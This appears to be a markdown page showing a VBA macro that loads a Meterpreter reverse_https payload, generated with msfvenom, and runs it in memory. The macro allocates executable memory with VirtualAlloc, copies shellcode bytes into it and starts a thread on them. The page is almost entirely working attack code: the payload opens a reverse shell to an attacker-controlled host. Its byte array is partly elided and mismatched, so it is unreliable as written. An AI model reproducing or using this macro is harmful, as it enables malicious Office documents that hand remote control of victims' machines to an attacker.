 ## VBA script to execute meterpreter staged payload in memory
Generate msfvenom shellcode
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication
```
![alt text](image-2.png)
VBA code
```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, 227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, 214, 49, 255, 172, 193, _
...
49, 57, 50, 46, 49, 54, 56, 46, 49, 55, 54, 46, 49, 52, 50, 0, 187, 224, 29, 42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)
```
